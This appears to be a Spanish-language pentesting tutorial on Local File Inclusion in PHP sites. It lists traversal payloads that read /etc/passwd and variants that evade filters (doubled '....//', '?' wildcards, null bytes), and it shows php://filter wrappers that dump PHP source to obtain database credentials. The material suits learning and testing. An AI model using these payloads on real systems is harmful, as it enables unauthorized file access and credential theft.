 Cuando tenemos la opción de vulnerar un LFI (ejemplo lo pongo después), nos podemos encontrar con restricciones.

Sin restricción
Basta con poner el nombre del fichero que queremos leer

Estando enjaulado en /var/www/html
Basta con volver a la raíz con '../'

../../../../..//etc/passwd
Con '../' restringido
Pondriamos doble '....//' ya que la sanitización eliminaría el primer '../' pero quedaría el segundo

....//....//....//....//etc/passwd
Con cadenas de texto concretos restringidos
Si tenemos /etc/passwd restringido por ejemplo, podemos jugar con interrogantes, o incluso con barras o './'

....//....//....//....//?tc/p?sswd
....//....//....//....//etc///////////passwd
....//....//....//....//etc/./././passwd
Incluso si tenemos restringido, que los ultimos 6 caracteres conicidan con 'passwd'

....//....//....//....//etc/./././passwd/.
Con forzado de extensiones
si el desarrollador concatena el $filename con por ejemplo .php, el fichero que buscaríamos sería /etc/passwd.php, cosa que no existe. para ello se puede para algunas versiones de PHP aplicar un null byte, con '%00' o '\0'

....//....//....//....//etc/passwd%00
....//....//....//....//etc/passwd\0
Jugando con wrappers
Al navegar por un sitio web con php, en la url se hace referencia al fichero, por ejemplo index.php, o about.php. Lo que ocurre que si nos dirigimos a ese fichero, el propio servidor lo va a interpretar y cargará el sitio web.

Para ello jugaremos con un wrapper que nos convierte la petición al fichero php en base64, posteriormente inspeccionamos el código web con 'Clic derecho > inspeccionar'. y buscamos la cadena en base64.

Si nos fijamos page=courses hace referencia a una página. es común que el código haga una concatenación con la extensión php. de manera que cuando pone page=courses, en realidad se está dirigiendo al fichero courses.php

lfi2.png

Teniendo esto claro, podemos jugar con el wrapper ```

php://filter/convert.base64-encode/resource=
lfi1.png

Así estamos accediendo al fichero index.php para ver su contenido. Algo que puede ser útil para visualizar por ejemplo un fichero php de conexión a base de datos, que debe incluir las credenciales de acceso.

también tenemos estos, que nos mostraría directamente el codigo php por pantalla:

php://filter/read=string.rot13/resource= 
y para descifrar esto, en bash:

tr '[c-za-bC-ZA-B]' '[p-za-oP-ZA-O]'
Otro ejemplo mas práctico:

php://filter/convert.iconv.utf8-utf16/resource=
